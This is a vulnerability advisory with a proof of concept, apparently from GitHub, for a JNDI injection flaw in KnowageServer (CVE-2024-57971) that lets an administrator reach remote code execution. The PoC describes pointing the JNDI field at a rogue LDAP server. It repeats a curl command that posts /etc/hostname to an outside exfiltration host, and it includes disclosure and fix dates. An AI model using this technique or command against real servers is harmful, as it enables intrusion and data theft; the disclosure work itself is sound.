 ## Overview
KNOWAGE is the open source analytics and business intelligence suite that allows you to combine traditional data and big/cloud data sources into valuable and meaningful information.

## Description
**KnowageServer, up to version **8.1.30**, does not properly validate user input for the “jndi” field in the “data sources” configuration panel. This behavior allows any user with role type “Administrator” (“roleTypeID”:28) to change the JNDI source at will by inserting a potentially malicious one, which could lead to remote code execution.**

JNDI injection is a type of attack that occurs when an attacker is able to inject malicious data into the JNDI data source used by an application, allowing them to execute arbitrary code on the application server. Proper validation and sanitization of user input can prevent this type of attack by ensuring that only safe data is used in JNDI queries.

The vulnerability was assigned a CVSS score of 9.1 - [CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)

## PoC
The following PoC demonstrates how Remote Code Execution within the Knowage server can be achieved thanks to this vulnerability: Leveraging a malicious LDAP server will be conveyed the command `curl -d @/etc/hostname http://<redacted>.oastify.com` to exfiltrate the /etc/hostname file to a third http exfiltration server.

The attack process begins with the preparation of an LDAP server, which, upon receiving a request for an object (in our case “o=exploit”), responds with a Reference Ref object containing the command `curl -d @/etc/hostname http://<redacted>.oastify.com`. 
To perform this operation, this PoC uses **Rogue JNDI**, a malicious server developed by Veracode Research.

After starting the LDAP server, we edit the data source using the UI. The address of the malicious server is entered into the JNDI field as shown in the figures below. 
By clicking “TEST” on the UI the input is processed and the attack is launched.

<img width="610" alt="Evidence1" src="https://github.com/user-attachments/assets/435724f3-8677-4078-b8c2-8e818592b009">

<img width="760" alt="Evidence2" src="https://github.com/user-attachments/assets/40c8bbba-e7e0-4cea-b7fb-206d00c4338c">

By inspecting the log of the attacking server, it can be seen that the attack was launched.

![Evidence3](https://github.com/user-attachments/assets/dba1529e-dd8d-4562-980a-976875c04176)

Upon receiving the “o=exploit” object, the Knowage server executes the `curl -d @/etc/hostname http://<redacted>.oastify.com` command. 
By inspecting the log of the the exfiltration-server, it can be seen that the code execution was successful: the server received a POST request containing the /etc/hostname file.

<img width="326" alt="Evidence4" src="https://github.com/user-attachments/assets/9e549d15-b3dc-4f2f-ac83-477345c67430">

The correctness of the received hostname can be seen in the Knowage licensing page, as shown in the figures below.

<img width="757" alt="Evidence5" src="https://github.com/user-attachments/assets/6d1d6060-577e-490f-8822-496f0f13b316">

## Credits:
- Jacopo Taccucci (@darumaseye)
- Special thanks to [@1nters3ct](https://github.com/1nters3ct) for his support in exploitation and publication❤️

## Timeline
- **07-10-2024**: The vulnerability was found and privately disclosed to the vendor;
- **16-10-2024**: A fix was released in version 8.1 as per commit: https://github.com/KnowageLabs/Knowage-Server/commit/f7d0362f737e1b0db1cc9cc95b1236d62d83dd0c 
- **15-02-2025**: Published in National Vulnerability Database as [CVE-2024-57971](https://www.cve.org/CVERecord?id=CVE-2024-57971) 
